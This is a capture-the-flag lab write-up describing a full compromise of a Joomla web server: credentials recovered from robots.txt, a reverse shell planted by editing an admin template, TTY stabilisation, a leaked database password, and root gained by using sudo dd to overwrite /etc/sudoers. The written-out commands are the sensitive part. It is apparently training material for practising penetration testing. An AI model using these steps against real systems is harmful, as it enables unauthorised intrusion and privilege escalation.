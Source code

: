 ```yaml
---
sticker: lucide//candy
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 80   | HTTP    |
We can get this in the scan:

```
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 17 disallowed entries
| /joomla/administrator/ /administrator/ /api/ /bin/
| /cache/ /cli/ /components/ /includes/ /installation/
| /language/ /layouts/ /un_caramelo /libraries/ /logs/ /modules/
|_/plugins/ /tmp/
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1B6942E22443109DAEA739524AB74123
|_http-generator: Joomla! - Open Source Content Management
```

Let's begin reconnaissance.
# RECONNAISSANCE
---

By looking at the scan we can check the entrance to `/robots.txt` is enabled, let's check it out:

![](../images/Pasted%20image%2020250306160644.png)

We got credentials and new entries, let's check the `/administrator` one:

```
admin:c2FubHVpczEyMzQ1
```

![](../images/Pasted%20image%2020250306160959.png)

If we try logging into the panel with those credentials, we are unable to do so, that's because the password is encoded using Base64, let's decode:

```bash
echo 'c2FubHVpczEyMzQ1' | base64 -d
sanluis12345
```

So, the correct credentials are:

```
admin:sanluis12345
```

![](../images/Pasted%20image%2020250306161139.png)

We are now inside the admin panel, let's look around for a way to get a shell.






# EXPLOITATION
---

After exploring the application for a while, we can check the following:

![](../images/Pasted%20image%2020250306161614.png)

We got administrator templates, let's check it out:



![](../images/Pasted%20image%2020250306161640.png)

We can modify files, let's try uploading a reverse shell in `/index.php`, once uploaded, start a listener and save the changes:

![](../images/Pasted%20image%2020250306161839.png)

We got our shell, let's stabilize it: 

1. python -c 'import pty;pty.spawn("/bin/bash")'
2. /usr/bin/script -qc /bin/bash /dev/null
3. CTRL + Z
4. stty raw -echo; fg
5. reset xterm
6. export TERM=xterm
7. export BASH=bash

![](../images/Pasted%20image%2020250306162017.png)

Nice, now let's look for a way to get root access.

# PRIVILEGE ESCALATION
---

We can use linpeas first:

![](../images/Pasted%20image%2020250306162512.png)

We found a user with a console: `luisillo`, we can also find this:

![](../images/Pasted%20image%2020250306162629.png)

We got a backups folder, let's check it out:

```
www-data@ce239478bbd9:/var/backups/hidden$ ls
otro_caramelo.txt
```

Let's read the file:

```
www-data@ce239478bbd9:/var/backups/hidden$ cat otro_caramelo.txt

Aqui esta su caramelo Joven :)

<?php
// Información sensible
$db_host = 'localhost';
$db_user = 'luisillo';
$db_pass = 'luisillosuperpassword';
$db_name = 'joomla_db';

// Código de conexión a la base de datos
function connectToDatabase() {
    global $db_host, $db_user, $db_pass, $db_name;
    $conn = new mysqli($db_host, $db_user, $db_pass, $db_name);
    if ($conn->connect_error) {
        die("Conexión fallida: " . $conn->connect_error);
    }
    return $conn;
}

// Información adicional
echo "Bienvenido a Joomla en línea!";
?>
```

We got credentials for `luisillo`, let's switch and check the permissions of this user:

```
luisillo@ce239478bbd9:~$ sudo -l
Matching Defaults entries for luisillo on ce239478bbd9:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User luisillo may run the following commands on ce239478bbd9:
    (ALL) NOPASSWD: /bin/dd
```

We can check this binary in gtfobins:

![](../images/Pasted%20image%2020250306162918.png)

So, we can escalate privileges with the following:

```
echo "luisillo ALL=(ALL:ALL) ALL" | sudo /bin/dd of=/etc/sudoers
```

What we did in here was to edit the `sudoers` file to enable `luisillo` to execute any command while using sudo, let's try:

![](../images/Pasted%20image%2020250306163315.png)

Just like that we got root access.

